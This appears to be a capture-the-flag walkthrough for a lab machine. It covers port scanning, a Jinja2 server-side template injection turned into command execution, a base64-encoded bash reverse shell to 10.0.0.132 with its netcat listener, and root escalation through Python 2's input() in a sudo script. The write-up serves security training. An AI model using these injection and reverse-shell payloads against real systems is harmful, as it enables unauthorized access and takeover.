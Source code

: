 # ****Tufan Al-Aqsa**** 🇵🇸

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled.png)

IP: 10.0.0.133

# Enumeration
We start by scanning the machine with nmap.

Discover all open ports:

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%201.png)

Check what is exactly running on these ports:

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%202.png)

# Foothold

There is python web application running on port 80.

Visiting it we get:

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%203.png)

If we try to inspect the source code, surprisingly we cant!

Trying to check robots.txt file

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%204.png)

We get this error page, and we notice that the file name is displayed in the error message.

Since it is a python web server it may be vulnerable to SSTI.

So to check we try the famous `{{7*7}}` SSTI payload.

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%205.png)

As we can see it returned 49 which proves that it is vulnerable.

So we now try to find a [payload](https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/) that can lead to RCE and then get a reverse shell.

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%206.png)

We have successfully run `id` command.

**For reverse shell:**

First we set up a listener:

```bash
nc -nvlp 1234
```

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%207.png)

Then we get a reverse shell payload: (you can use https://www.revshells.com/ to generate one)

```bash
/bin/bash -i >& /dev/tcp/10.0.0.132/1234 0>&1
```

Encode it with bsae64

```bash
echo '/bin/bash -i >& /dev/tcp/10.0.0.132/1234 0>&1' | base64 
```

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%208.png)

```bash
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjAuMC4xMzIvMTIzNCAwPiYxCg==
```

This will echo the command, decode it and run it. This way we wont face any problems running commands.

```bash
http://10.0.0.133/{{request.application.__globals__.__builtins__.__import__('os').popen('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjAuMC4xMzIvMTIzNCAwPiYxCg== | base64 -d | bash').read()}}
```

And we get the reverse shell

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%209.png)

We can find the user.txt flag inside the home directory for the user zoznoor23. 🇵🇸

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%2010.png)

# Privilege Escalation
Running `sudo -l` to check what the user zoznoor23 can run using sudo.

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%2011.png)

So the user zoznoor23 can run python2 on /opt/i_dont_trust_sudo.py as root.
Let us try running it:

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%2013.png)

It asks for a password, but we do not have any.

Let us read the file to understand how it works, or to get a clue about what the password is.

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%2012.png)

So bsically the code reads a password form /root/password.txt, and check if our input matches the password, then it will run /bin/bash giving us a shell as root.

Since we did not found any clue, we should look somewhere else.

What is interesting here is that it is using python 2, whihle python3 exists on the machine which is weried.

Searching for python 2 vulnerabilities we find that the input() function in python2 is  vulnerable.

The vulnerability in input() method lies in the fact that the variable accessing the value of input can be accessed by anyone just by using the name of the variable or method. Below are some vulnerability in input() method:
- Variable name as input parameter
- Function name as parameter

[Read about the vulnerability.](https://www.geeksforgeeks.org/vulnerability-input-function-python-2-x/)


So in our case we just need to provide `secure_password` as our input, and we now we got a shell as root.

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%2014.png)

Now we can go to the home directory for the root user and read root.txt flag.

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%2015.png)
